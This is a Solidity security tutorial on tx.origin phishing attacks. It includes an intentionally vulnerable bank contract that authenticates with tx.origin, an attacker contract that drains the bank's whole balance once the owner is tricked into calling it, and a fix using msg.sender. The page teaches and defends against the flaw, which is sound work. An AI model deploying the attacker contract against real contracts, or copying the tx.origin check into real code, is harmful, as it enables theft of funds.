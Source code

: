 ```yaml
---
title: Tx Origin Attacks
displayed_sidebar: generalSidebar
---
```


A transaction origin attack is form of phising attack that can drain a contract of all funds.

In Solidity, `tx.origin` retrieves the address of the transaction originator, distinguishing it from `msg.sender`. Let's use an example to understand their differences. Imagine that User A calls Contract B, which then calls Contract C. For Contract C, `msg.sender` would be Contract B, while `tx.origin` would still be User A.

Using `tx.origin` for authentication in a smart contract could pose security risks. An attacker could deploy a malicious contract and trick the owner of a bank contract into calling it. Even though `msg.sender` would be the address of the attacker’s contract, `tx.origin` would still show the bank contract owner’s address, potentially allowing unauthorized transactions.

#### Simple Bank Contract

This simple bank contract tracks the owner and includes a constructor and a public method:

- **Constructor**: Assigns the `bankOwner` variable during contract creation.
- **sendFunds()**: Takes two parameters, `recipient` and `amount`. It checks if `tx.origin == bankOwner` and, if true, transfers `amount` of ETH to `recipient`.

```solidity
contract SimpleBank {
    address public bankOwner; // tracks the contract's owner

    constructor() payable {
        bankOwner = msg.sender;
    }


    // This method is vulnerable to phishing attacks
    function sendFunds(address payable recipient, uint amount) public {
        require(tx.origin == bankOwner, "Caller is not the owner");
        (bool success, ) = recipient.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```

#### Hacker Contract

The malicious contract’s logic is simple: to fish the balance from the bank contract owner to the attacker’s address. It includes two state variables `thief` and `target`:

- **Constructor**: Initializes `target` contract address.
- **launchAttack()**: When called by the bank contract’s owner, it forces a transaction from the bank to the hacker’s address.

```solidity
contract Hacker {
    address payable public thief;
    SimpleBank target;

    constructor(SimpleBank _target) {
        target = SimpleBank(_target);
        thief = payable(msg.sender);
    }

    function launchAttack() public {
        target.sendFunds(thief, address(target).balance);
    }
}
```

#### Prevention Strategy

**Using `msg.sender` instead of `tx.origin`**:
   `msg.sender` accurately identifies the direct caller of the contract, thereby preventing any interference by external malicious contracts.
   ```solidity
   function sendFunds(address payable recipient, uint amount) public {
           require(msg.sender == bankOwner, "Caller is not the owner");
           (bool success, ) = recipient.call{value: amount}("");
           require(success, "Transfer failed");
       }
   ```